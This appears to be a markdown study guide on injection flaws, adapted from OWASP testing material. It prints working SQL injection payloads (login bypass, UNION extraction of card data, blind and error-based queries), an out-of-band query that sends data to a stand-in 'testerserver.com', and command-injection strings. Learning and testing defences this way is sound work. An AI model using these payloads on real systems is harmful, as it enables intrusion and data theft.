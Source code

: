 # Injection

## Links
[OWASP: injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)

[SAST](https://owasp.org/www-community/Source_Code_Analysis_Tools)

[DAST](https://owasp.org/www-community/Vulnerability_Scanning_Tools)

[Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)

[Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)

## Questions

<details>
  <summary>What is the injection?</summary>

  It is possible to inject data into almost all sources. Injection flaws occur when an attacker can send hostile data. Injection vulnerabilities are very prevalent, particularly in legacy code. SQL, LDAP, XPath or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages and ORM queries often are vulnerable to injection. The injection can result in data loss, corruption, disclosure to unauthorized parties, loss of accountability, or denial of access. Also, the injection can sometimes lead to a complete host takeover.

</details>

<details>
  <summary>When is an application is vulnerable?</summary>

  * when user-supplied data is not validated, filtered, or sanitized by the application;

  * when dynamic queries or non-parameterized calls without context-aware escaping are used directly in the interpreter;

  * when using hostile data within object-relational mapping (ORM) search parameters to extract additional, sensitive records;

  * when the SQL or command contains both structure and hostile data in dynamic queries, commands, or stored procedures (directly using).

</details>

<details>
  <summary>How to prevent injection?</summary>

  * Use a safe API, which avoids direct using an interpreter entity or provides a parameterized interface or uses Object Relational Mapping Tools (ORMs);

  * Use a positive serverside input validation;

  * Escape special characters for dynamic queries; 

  * Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection.

</details>

<details>
  <summary>What tools could help to avoid injection?</summary>

  * Static Application Security Testing (SAST)
  
  * Dynamic Application Security Testing (DAST)

</details>

<details>
  <summary>What are the criteria for secure database access?</summary>

  * secure queries:

  SQL Injection occurs when untrusted user input is dynamically added to a SQL query in an insecure manner, often via basic string concatenation. An attacker can get a foothold on your network by it. The best way of protection is using a programming technique known as query Parameterization. It allows the database to distinguish between code and data.

  * secure configuration:

  It is possible to use a secure database configuration. Need to be sure that security controls are available from the Database Management System and hosting platform is enabled and properly configured.

  * secure authentication:

  Authentication should take place only over a secure channel.

  * secure communication:

  Most DBMS support a set of communications methods - secure and insecure. It is a good practice to use secure communications options.

</details>

<details>
  <summary>What is the ASVS(Application Security Verification Standard)?</summary>

  The ASVS provides a basis for testing web application technical security controls and provides developers with a list of requirements for secure development. The requirements are following objectives in mind:

  * Use as a metric: provide application developers and application owners with a yardstick that allows assessing the degree of trust in your application;

  * Use as guidance: guide security control developers as to what to build into security controls to satisfy application security requirements;

  * Use during procurement: provide a basis for specifying application security verification requirements in contracts.

</details>

<details>
  <summary>What are classes of the SQL injection?</summary>

  Inband(inside): extract data by the same channel as for injection of the SQL code.
  
  Out-of-band(outside): data is retrieved using a different channel.
  
  Inferential or Blind: there is no actual transfer of data, but the tester can reconstruct the information by sending particular requests and observing the resulting behaviour of the DB Server.

</details>

<details>
  <summary>What are SQL injection techniques?</summary>

  It is possible to use five general techniques or their combinations.

  Union Operator: use when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set;

  Boolean: use Boolean condition(s) to verify whether certain conditions are true or false;

  Error based: this technique forces the database to generate an error, giving the attacker or taster information which to refine their injection;

  Out-of-band: the technique used to retrieve data using a different channel;

  Time delay: use database commands to delay answers in conditional queries. It is useful when an application doesn't provide results, outputs or errors to an attacker.

</details>

<details>
  <summary>What are detection techniques?</summary>

  Firstly need to understand when the application interacts with a DB Server to access some data. Typical examples:

  Authentication forms: if authentication uses a web form, generally, an application will check user credentials;

  Search engines: if the SQL query extracts all relevant records from a database, it will be possible to use submitted string;

  E-Commerce sites: the products and their characteristics are very likely to be stored in a database.

  The tester should check by an input fields list whose values could be used in SQL queries separately.

</details>

<details>
  <summary>What is standard SQL injection testing (Classic SQL injection)?</summary>

  Consider the following SQL query:
  
  `SELECT * FROM Users WHERE Username='$username' AND Password='$password'`

  Suppose we insert the following Username and Password values:

  `$username = 1' or '1' = '1`

  `$password = 1' or '1' = '1`

  The query will be:

  `SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1'`

  If the values was sent by the GET method and if the domain was `www.example.com`, the request would be:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&amp;password=1'%20or%20'1'%20=%20'1`

  After a short analysis, we notice that the query returns a value (or a set of values) because the condition has a successful result (OR 1=1).

  Another example query is the following:

  `SELECT * FROM Users WHERE ((Username='$username') AND (Password=MD5('$password')))`

  The query has two problems: the parentheses and the MD5 hash function. The values could be:

  `$username = 1' or '1' = '1'))/*`

  `$password = foo`

  In this way, we’ll get the following query:

  `SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND (Password=MD5('$password')))`

  (Due to the inclusion of a comment delimiter in the $username value the password portion of the query will be ignored.)
  The request URL will be:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))/*&amp;password=foo`

  It may return many values. Sometimes, the authentication code verifies that the number of returned records/results is equal to 1. Could be use next values:

  `$username = 1' or '1' = '1')) LIMIT 1/*`

  `$password = foo`

  In this way, we create a request like the following:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))%20LIMIT%201/*&amp;password=foo`

</details>

<details>
  <summary>What is standard SQL injection testing (SELECT Statement)?</summary>

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. It is possible to try to use the AND and OR operators.

  Consider the request:

  `http://www.example.com/product.php?id=10 AND 1=2`

  `SELECT * FROM products WHERE id_product=10 AND 1=2`

  In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result:

  `http://www.example.com/product.php?id=10 AND 1=1`

</details>

<details>
  <summary>What is standard SQL injection testing (Stacked Queries)?</summary>

  If an application uses the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) will be possible to execute multiple queries in one call.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  A way to exploit the above scenario would be:

  `http://www.example.com/product.php?id=10; INSERT INTO users (…)`

  This way is possible to execute many queries in a row and independent of the first query.

</details>

<details>
  <summary>How understand what backend database uses?</summary>

  The first way to find out what back end database uses is by observing the error returned by the application. The following are some examples of error messages:

  MySql:

    You have an error in your SQL syntax; check the manual
    that corresponds to your MySQL server version for the
    right syntax to use near '\'' at line 1

  `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, version() limit 1,1`

  Oracle:

    ORA-00933: SQL command not properly ended
    MS SQL Server:
    Microsoft SQL Native Client error ‘80040e14’
    Unclosed quotation mark after the character string

  `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, @@version limit 1, 1`

  PostgreSQL:

    Query failed: ERROR: syntax error at or near
    "’" at character 56 in /www/site/test.php on line 121.

  If there is no error message or a custom error message, the tester can inject it into string fields using varying concatenation techniques.

</details>

<details>
  <summary>How understand what backend database uses (Union Exploitation Technique)?</summary>

  The UNION operator is used in SQL injections to join a query, purposely forged by the tester, to the original one. It allows obtaining values from other tables. Look at the following example:

  `SELECT Name, Phone, Address FROM Users WHERE Id=$id`

  We will set the following $id value:

  `$id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

  We will have the following query:

  `SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

  The keyword ALL is necessary to get around queries that use the keyword DISTINCT. Moreover, we notice that beyond the credit card numbers, we have selected two other values. They allow avoiding a syntax error.

  The first detail a tester needs to exploit the SQL injection vulnerability using the technique is to find the correct numbers of columns in the SELECT statement.

  The tester can use ORDER BY clause followed by a number indicating the numeration of the column selected:

  `http://www.example.com/product.php?id=10 ORDER BY 10--`

  After the tester finds out the numbers of columns, the next step is to find out the type of columns. Assuming there were three columns in the example above, the tester could try each column type, using the NULL value to help them:

  `http://www.example.com/product.php?id=10 UNION SELECT 1,null,null--`

  If the query fails, the tester will probably see a message like:

    All cells in a column must have the same datatype
    If the query executes with success, the first column can be an integer. Then the tester can move further and so on:

  `http://www.example.com/product.php?id=10 UNION SELECT 1,1,null--`

  After gathering successful information, the application may only show one line of the result because the application treats only the first line. It is possible to use a LIMIT clause or the tester can set an invalid value, making only the second query valid:

  `http://www.example.com/product.php?id=99999 UNION SELECT 1,1,null--`

</details>

<details>
  <summary>How understand what backend database uses (Boolean Exploitation Technique)?</summary>

  The technique is well during blind SQL Injection if the tester cannot get information about a database from an outcome. For example, if a programmer has created a custom error page that does not provide information from a database.

  The method consists of carrying out a series of boolean queries against the server, observing the answers and finally deducing the meaning of such answers. Consider the www.example.com domain and suppose that it contains a parameter named id vulnerable to SQL injection. It means that carrying out the following request:

  `http://www.example.com/index.php?id=1'`

  Suppose that the database query would be:

  `SELECT field1, field2, field3 FROM Users WHERE Id='$Id'`

  The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. It is possible to present in practically every database using some standard functions. For our examples:

  * SUBSTRING (text, start, length);
  * ASCII (char);
  * LENGTH (text).

  As an example, we will use the following value for Id:

  `$Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1`

  That creates the following query:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1'`

  The previous example returns a result if and only if the first character of the field username is equal to the ASCII value 97. But it could be a problem to understand which way could distinguish tests returning a true value from those that return false. Create the query that always returns true:

  `$Id=1' AND '1' = '2`

  Which will create the following query:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' = '2'`

  It is possible to get length of the field:

  `$Id=1' AND LENGTH(username)=N AND '1' = '1`

  Where N is the number of characters that we have analyzed up to now:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND LENGTH(username)=N AND '1' = '1'`

  The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability.

</details>

<details>
  <summary>How understand what backend database uses (Error Based Exploitation Technique)?</summary>

  The technique could be used by a tester when he cannot use one of the other techniques. The point is data extraction from the database by error messages.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be (e.g. Oracle 10g):

  `http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

  In this example, the tester is concatenating the value 10 with the result of the function UTL_INADDR.GET_HOST_NAME. This Oracle function will try to return the hostname of the parameter passed to it, which is another query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:

  `ORA-292257: host SCOTT unknown`

  Then the tester can manipulate the parameter passed to GET_HOST_NAME() function and the result will be shown in the error message.

</details>

<details>
  <summary>How understand what backend database uses (Out of Band Exploitation Technique)?</summary>

  The technique consists of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be:

  `http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

  UTL_HTTP.request function will try to connect to the fake server and make an HTTP GET request containing the return from the query: SELECT user FROM DUAL.

</details>

<details>
  <summary>How understand what backend database uses (Time Delay Exploitation Technique)?</summary>

  The technique consists in sending an injected query. If the conditional was true, the tester would monitor the server response time. 

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be (e.g. MySql 5.x):

  `http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--`

  In this example the tester checks whether the MySql version is 5.x or not, making the server sleep for 10 seconds. The tester can increase the delay time and monitor the responses.

</details>

<details>
  <summary>What is a stored procedure injection?</summary>

  When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure.
  
  Consider the following SQL Server Stored Procedure:
  
    Create procedure user_login @username varchar(20), @passwd varchar(20)
    As
    Declare @sqlstring varchar(250)
    Set @sqlstring  = ‘
    Select 1 from users
    Where username = ‘ + @username + ‘ and passwd = ‘ + @passwd
    exec(@sqlstring)
    Go
  
  User input:
  
  `anyusername or 1=1'`
  
  `anypassword`
  
  This procedure does not sanitize the input and allow the return value to show an existing record with these parameters.

</details>

<details>
  <summary>What is OS command injection?</summary>

  OS command injection is a technique used via a web interface to execute OS commands on a web server. Any web interface that does not sanitize data is subject to this exploit.

</details>

<details>
  <summary>How to test command injection?</summary>

  When viewing a file in a web application, often the filename is in the URL. Perl allows piping data from a process into an open statement. The user can append the Pipe symbol | onto the end of the filename.

  Example URL before alteration:

  `http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

  Example URL modified:

  `http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

  It would execute the command /bin/ls.

</details>

<details>
  <summary>What special characters are possible to use for command injection?</summary>

  The following special character can be used for command injection such as | ; & $ > < ' !

  * cmd1|cmd2 : Uses of | will make command 2 to be executed weather command 1 execution is successful or not.
  * cmd1;cmd2 : Uses of ; will make command 2 to be executed weather command 1 execution is successful or not.
  * cmd1||cmd2 : Command 2 will only be executed if command 1 execution fails.
  * cmd1&&cmd2 : Command 2 will only be executed if command 1 execution succeeds.
  * $(cmd) : For example, echo $(whoami) or $(touch test.sh; echo 'ls' > test.sh)
  * cmd : It’s used to execute specific command. For example, whoami
  * >(cmd): >(ls)
  * <(cmd): <(ls)

</details>
